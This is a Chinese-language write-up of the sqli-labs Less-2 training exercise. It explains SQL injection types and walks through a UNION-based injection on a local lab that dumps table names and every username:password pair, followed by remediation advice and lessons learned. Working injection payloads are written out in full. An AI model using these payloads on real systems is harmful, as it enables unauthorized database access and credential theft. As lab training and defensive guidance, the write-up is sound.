










SQLI-LAB报告

## 漏洞概要

SQL注入是一类高危漏洞，存在于与数据库相关的环境中，本质上是在数据与代码没有严格分离的环境下，将用户输入的内容作为可执行语句从而实现注入行为。SQL注入漏洞常见于未使用参数化查询、以拼接字符串方式构造 SQL 的场景。攻击者可通过SQL注入实现对数据库内容的访问，极易导致用户个人信息的泄露，和密码哈希撞库其他网站的用户，甚至承担法律责任。

SQL注入点大致可分为两种：GET型和POST型。GET型SQL注入的特点是以URL作为注入点，通过修改URL参数的方式完成注入攻击；POST型注入的特点是payload不在URL显现，而是通过修改POST请求体的内容。

SQL注入手法可分为六种：联合查询注入、报错注入、布尔盲注、时间盲注、堆叠注入、带外注入。联合查询注入和报错注入的特点是需要回显位，注入快速而精确；布尔盲注和时间盲注的特点是以页面变化的方式作为判断基准，在联合查询注入和报错注入失效时尝试布尔盲注和时间盲注；**堆叠注入**的特点是可以执行查询之外的操作，用";"结束查询语句，然后添加自己想要执行的SQL语句；**带外注入（OOB）**的特点是靠DNS/HTTP访问服务器时携带数据库信息，然后通过查看服务器log的方式得到需要的内容。

## 漏洞检测

0、判断数据库类型

1、检测数字型还是字符型

2、检测闭合方式

3、检测有无回显--盲注

4、检测过滤方式

## 打靶练习

LESS-2

先用闭合试探数据库类型，看到报错You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1说明是MySQL数据库

而且#也能正常作为注释符使用，说明的确是MySQL数据库

第二步判断类型

id=1时页面返回数据

id=a时页面报错Unknown column 'a' in 'where clause'，说明是数字型不是字符型

直接使用order by测试查询位数，发现4大于这个位数

减少order by的数位，页面返回数据，说明这个数位就是3

将id=-1，使用联合查询union select 1,2,3的方式查询回显位，发现2和3是回显位

构造payload：?id=-1 union select 1,2,database()--+爆出数据库名为security

进一步构造payload：?id=-1 union select 1,2,(group_concat(table_name)) from information_schema.tables where table_schema=database()--+爆出表名为emails,referers,uagents,users

再构造payload：?id=-1 union select 1,2,(group_concat(column_name)) from information_schema.columns where table_name='users' and table_schema=database()--+爆出users表的列名是id,username,password

构造payload：http://127.0.0.1/sqli-labs-master/Less-2/
?id=-1 union select 1,2,(group_concat(concat_ws(':',username,password))) from users--+爆出username和password的组合Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4

## 总结

### 一、影响与危害

攻击者仅需对URL进行操作，无需任何验证，即可实现对数据库名、表名、username和password进行查询。本次已实际验证：读取到 users 表的全部 13 组 username 与 password 组合，库中另有 emails、referers、uagents 三张表同样可被读取。

其中包含 `admin:admin` 这类可直接登录的后台账号，且密码以弱口令形式存储，攻击者无需破解即可直接使用。对用户的个人信息造成了泄露，攻击者可能利用username和password在其他网站进行撞库，影响范围超出了网站本身。

**利用门槛**：仅需浏览器与一次 URL 参数修改，无需任何专业工具或知识。

### 二、修复建议

1、根本修复：
   对该参数使用预编译（参数化查询）。其原理是数据库先确定语句结构、
   再将参数作为纯数据传入，用户输入永远不会进入 SQL 语法层被解析。

2、为什么不能用转义/过滤替代：
   转义引号、过滤关键字属于黑名单思路，只要存在一个未覆盖的绕过方式
   即告失效。这是"堵"而不是"隔离"。

3、临时缓解（代码改不动时）：
   - 该接口的数据库账号降权，仅保留必要的 SELECT 权限
   - 关闭详细报错回显（当前页面直接返回 SQL 报错，本身即信息泄露）
   - WAF 拦截 union select、information_schema 等特征

4、同类问题排查：
   按"是否存在字符串拼接构造 SQL"对全部接口做一次检索，注入点通常不止一处。

5、修复验证方法：
   用原 payload 复测：?id=-1 union select 1,2,(group_concat(concat_ws(':',username,password))) from users--+
   预期：不再回显 username 与 password 的组合，返回参数错误或正常业务结果。
   并需更换手法复测（报错注入、布尔盲注），确认全部手法失效，
   仅拦截 UNION 一种不视为修复完成。

### 三、延伸思考

**卡在哪**：

1、一开始发现是数字型没有闭合方式，有点不习惯，但是很快发现SQL注入靠的不是闭合，而是构造SQL语句。闭合是为了结束原文的查询语句，如果没有闭合则直接构造SQL语句即可。
2、找回显位那一步第一次没有改成-1，结果导致占位符没有显示在页面上，很快意识到是原文 的查询语句覆盖了联合查询语句的回显，将1改成-1即可解决。

**学到什么**：

1、**数字型和字符型的判断依据，可以用同一个操作来对照。**
   本关传 id=a 时，页面报错 `Unknown column 'a' in 'where clause'`。
   原因：数字型的语句是 `WHERE id = a`（不带引号），数据库把 a **当成列名**去找，找不到就报错；
   而字符型的语句是 `WHERE id = 'a'`，a 是合法字符串，只会返回空结果、不会报错。
   **同一个操作在两关的差异，就是两种类型的本质区别。**

2、**数字型不需要闭合那一步。**
   LESS-1 的 payload 要写 `1' union select...`（先闭合原语句的引号），
   本关直接写 `-1 union select...` 即可，因为原语句的 id 参数本来就不带引号。

3、最后一部分爆数据username和password时不用指定库名和表名，是因为要操作的表users就在当前连接的数据库，如果是跨库操作例如dvwa库，需要指定dvwa.users。

